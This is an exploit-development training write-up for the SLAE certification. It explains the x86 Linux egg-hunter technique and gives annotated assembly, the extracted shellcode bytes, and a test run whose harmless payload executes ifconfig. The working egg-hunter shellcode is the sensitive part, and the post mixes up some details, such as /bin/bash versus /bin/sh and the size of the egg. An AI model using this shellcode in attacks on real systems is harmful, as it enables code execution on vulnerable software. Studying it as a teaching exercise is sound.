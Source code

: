**Assignment 3**

	Shellcode for Egghunter  

**Introduction**

	In a normal buffer overflow scenario, the location of where the shellcode is placed is more or less static and/or could be referenced by using a register and the available size in the stack memory is enough to fit the shellcode.Consider a scenario where the available buffer size is too small to squeeze the entire shellcode

	A technique called egg hunting may help us out here. Accoring to corelan ,Egg hunting is a technique that can be categorized as “staged shellcode”, and it basically allows you to use a small amount of custom shellcode to find your actual (bigger) shellcode (the “egg”) by searching for the final shellcode in memory.  In other words, first a small amount of code is executed, which then tries to find the real shellcode and executes it.

	There are 3 conditions that are important in order for this technique to work

		1. You must be able to jump to (jmp, call, push/ret) & execute “some” shellcode.  The amount of available buffer space can be relatively small, because it will only contain the so-called “egg hunter”.  The egg hunter code must be available in a predictable location (so you can reliably jump to it & execute it)

		2. The final shellcode must be available somewhere in memory (stack/heap/…).

		3. You must “tag” or prepend the final shellcode with a unique string/marker/tag. The initial shellcode (the small “egg hunter”) will step through memory, looking for this marker. When it finds it, it will start executing the code that is placed right after the marker using a jmp or call instruction.  This means that you will have to define the marker in the egg hunter code, and also write it just in front of the actual shellcode.


	Good Reads :
			https://www.fuzzysecurity.com/tutorials/expDev/4.html
			https://www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/
			http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf
			http://r00tin.blogspot.com/2009/03/heap-only-egg-hunter.html


**Methodology**

	The x86 processors in 32-bit mode support page sizes of 4KB, 2MB, and 4MB. Both Linux and Windows map the user portion of the virtual address space using 4KB pages. Bytes 0-4095 fall in page 0, bytes 4096-8191 fall in page 1, and so on.

	The Egghunter code will be browsing through the pages to look for the marker / egg and use access function to see the pages are accessible or not . If we get a efault error for a page ,we can skip that  page and check the next page.Once a valid page is found we look for the egg/marker and jmp on the codepart of the egg/marker


	Access Function

		access() checks whether the calling process can access the file pathname.
		Refer : https://linux.die.net/man/2/access

		int access(const char *pathname, int mode);

		Parameters
			*pathname will be the addresslocation of the page we want to check
			The mode specifies the accessibility check(s) to be performed, and is either the value F_OK, or a mask consisting of the bitwise OR of one or more of R_OK, W_OK, and X_OK. F_OK tests.

	Incase of a access deny , and EFAULT will be returned ie (14)



	Our egg would be 0x41414141 and the egghunter will look for 0x41414141 + "/bin/bash -c ifconfig" shellcode through the memory.once found code will jump onto /bin/sh shellcode

	8bytes 0x4141414141414141 is considered because we dont wanna match the egghunter shellcode itself


		global _start



		section .text

		_start:

        		; initialization
        		xor ecx, ecx
        		mul ecx          		#will clear ecx,eax and edx register
        		xor ebx, ebx
        		xor esi, esi

		next_lpage:
        		or dx,0xfff                
        						#using logical or with 0xfff and a memory address allows us to increment page sizes by a multiple of 4095. so next page is acheived using address location or ed with 0xfff , 4095 and 
        							adding a 1
        						#the reason we cant just increment page sizes with 4096 is hex(4096) = 0x1000 cause a null byte to be added in the shellcode								

		next_incr:
        		inc edx         		#page increment

        						;access function  to check permission

        		xor eax,eax       		#clear eax
        		mov edi,0x41414141      	#edi contains the egg we are looking for .
        		mov al,0x21             	#EAX conatins 33 , access function call number
        							#cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep 33
        							##define __NR_access              33


        		lea ebx,[edx+8]         	#load the address value contained in edx + 8  to ebx 
        		int 0x80                	#access call to check if the page is accessible
        		cmp al,0xf2

        							#after the function call eax contains the return value , in case of 		EFAULT (bad address) the value we are looking for is 14 , ie  cat /usr/include/asm-generic/errno-base.h

        							Since this is an error code it will actually be returned as a negative 14 thus in hex we get back 0xfffffff2  #2s compliment	

        							-14 

									0000 1110 
									1111 0001 + 
							               		1 
									-------------- 
									1111 0010 
									F   2

        		jz next_lpage  			#incase of a efaul , jump to next page

        		cmp edi,[edx]  			#egg match find ?
        		jnz next_incr  			#if not advance memory

        		cmp edi,[edx+4]         	#eggmatch twice ?
        		jnz next_incr			#if not advance page

        		lea esi,[edx+8]			#egg match twice , get the address location of the shellcode to be executed to esi
        		jmp esi				#jmp to location pointed by esi

**Practical**

Egg is 0x41414141 , the shellcode to be executed is of "/bin/sh -c ifconfig"

	toor@ubuntu:~/Desktop/slae/Assignments/3$ ./compile.sh egg
 	Assembling with nasm
	Success, Now Linking
	Go Ahead, may the force be with you
	toor@ubuntu:~/Desktop/slae/Assignments/3$
	
	Extracting Shellcode using objdump
	toor@ubuntu:~/Desktop/slae/Assignments/3$ objdump -d ./egg|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
		"\x31\xc9\xf7\xe1\x31\xdb\x31\xf6\x66\x81\xca\xff\x0f\x42\x31\xc0\xbf\x41\x41\x41\x41\xb0\x21\x8d\x5a\x08\xcd\x80\x3c\xf2\x74\xe8\x3b\x3a\x75\xe9\x3b\x7a\x04\x75\xe4\x8d\x72\x08\xff\xe6"

	Copy pasting shell code to C wrapper Program.
	toor@ubuntu:~/Desktop/slae/Assignments/3$ nano poc.c
	toor@ubuntu:~/Desktop/slae/Assignments/3$ gcc -fno-stack-protector -z execstack poc.c -o shellcode
	toor@ubuntu:~/Desktop/slae/Assignments/3$ ./shellcode
	Size: 47 bytes.
	eth0    Link encap:Ethernet  HWaddr 00:0c:29:f5:aa:6c
         	inet addr:192.168.230.169  Bcast:192.168.230.255  Mask:255.255.255.0
          	inet6 addr: fe80::20c:29ff:fef5:aa6c/64 Scope:Link
          	UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          	RX packets:83289 errors:0 dropped:0 overruns:0 frame:0
          	TX packets:34547 errors:0 dropped:0 overruns:0 carrier:0
          	collisions:0 txqueuelen:1000
          	RX bytes:57571168 (57.5 MB)  TX bytes:6962937 (6.9 MB)
          	Interrupt:19 Base address:0x2000
		
	lo      Link encap:Local Loopback
          	inet addr:127.0.0.1  Mask:255.0.0.0
          	inet6 addr: ::1/128 Scope:Host
          	UP LOOPBACK RUNNING  MTU:65536  Metric:1
          	RX packets:6986 errors:0 dropped:0 overruns:0 frame:0
          	TX packets:6986 errors:0 dropped:0 overruns:0 carrier:0
          	collisions:0 txqueuelen:0
          	RX bytes:627379 (627.3 KB)  TX bytes:627379 (627.3 KB)

	toor@ubuntu:~/Desktop/slae/Assignments/3$

	Works like a charm


**Github Repo**

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1509
        	

